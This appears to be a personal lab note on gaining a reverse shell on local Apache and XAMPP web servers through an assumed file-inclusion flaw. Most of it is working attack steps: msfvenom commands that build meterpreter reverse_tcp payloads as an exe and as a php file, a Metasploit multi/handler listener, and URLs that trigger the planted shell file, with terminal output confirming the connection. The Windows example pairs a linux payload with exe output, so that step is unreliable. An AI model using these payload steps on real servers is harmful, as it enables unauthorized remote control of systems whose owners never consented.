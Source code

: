 ## Windows example
- Just set up a normal Apache server on a Windows machine

### Exploit
1. Run the command to create the exe file containing the input ```msfvenom -p linux/meterpreter/reverse_tcp LHOST=localhost LPORT=80 -f exe -o venomexample.exe``
>[!example] Now we expect in this case to have any local file inclusion on our Windows Apache server, in a real world scenario, obviously this vulnerability needs to be given first
>

2. start a multi/handler in Metasploit to listen on the specified port and receive the incoming reverse shell connection
3. Using the file inclusion we add the venomexample.exe site to our Apache server
4. Now we just call the url of the shell script we hid on the site https://localhost/venom.exe
 -> this file contains the payload to establish the reverse shell and connects directly to the specified port, we are listening to
#### XAMPP example
- Set up default XAMMP server, by installing XAMMP and add index.php


Start XAMPP service, including apache and mysql database using XAMMP GUI
```
jmxnzo@jmxnzo-ThinkPad-T470-W10DG:~$ sudo /opt/lampp/manager-linux-x64.run
```

### Exploit
1. Use msfvenom to create the exploit php file, which contains the payload for spawing our shell, specifying the port(LPORT), on which we are running the reverse shell listener
```
jmxnzo@jmxnzo-ThinkPad-T470-W10DG:~$ sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=3002 -f raw -o shell.php
[sudo] password for jmxnzo: 
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1110 bytes
Saved as: shell.php
```
2. start a multi/handler in Metasploit to listen on the specified port and receive the incoming reverse shell connection
>[!example] Now we expect in this case to have any local file inclusion on our XAMMP server, in a real world scenario, obviously this vulnerability needs to be given first
>
> 
3. Using the file inclusion we add the shell.php site to our XAMMP website
4. Now we just call the url of the shell script we hid on the site https://localhost/Mysyte/shell.php
 -> this file contains the payload to establish the reverse shell and connects directly to the specified port, we are listening to
![[Pasted image 20231026230351.png]]
-> as seen in the image above there was started a reverse shell from port 3002 to port 35168 on our localhost

